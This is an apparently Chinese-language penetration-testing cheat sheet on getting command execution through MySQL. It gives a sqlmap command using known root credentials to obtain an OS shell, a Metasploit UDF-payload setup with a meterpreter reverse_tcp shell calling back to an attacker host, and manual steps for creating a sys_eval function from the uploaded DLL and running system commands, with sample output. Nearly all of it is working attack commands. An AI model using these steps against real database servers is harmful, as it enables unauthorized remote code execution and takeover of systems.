 mysql连接

```
跳过ssl连接
mysql -h192.168.137.142 -P3306 -uroot -p --skip-ssl
```

知道账号密码sqlmap登录

```
sqlmap.py -d "mysql://root:root@192.168.99.100:3306/test" --os-shell
```

### msf

```
use exploit/multi/mysql/mysql_udf_payload
set RHOST 192.168.99.100
set PASSWORD root
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.99.1
exploit 

```


运行后虽然上传了udf文件，创建了sys_exec()函数，但是没有返回session。此时可以通过mysql连接手动创建sys_eval()函数。

```
#先查询上传udf文件名
mysql> select * from mysql.func where name = 'sys_exec';
+----------+-----+--------------+----------+
| name     | ret | dl           | type     |
+----------+-----+--------------+----------+
| sys_exec |   2 | QApbQCTY.dll | function |
#创建sys_eval函数
mysql> create function sys_eval returns string soname 'QApbQCTY.dll';
Query OK, 0 rows affected (0.00 sec)
#测试运行whoami
mysql> select sys_eval('whoami');
+-----------------------+
| sys_eval('whoami')    |
+-----------------------+
| win-88jdvt747gh\test|
+-----------------------+
1 row in set (0.14 sec)
————————————————
```

### 有写入权限

```
show global veriables like '%secure%';

secure_file_priv为空
```
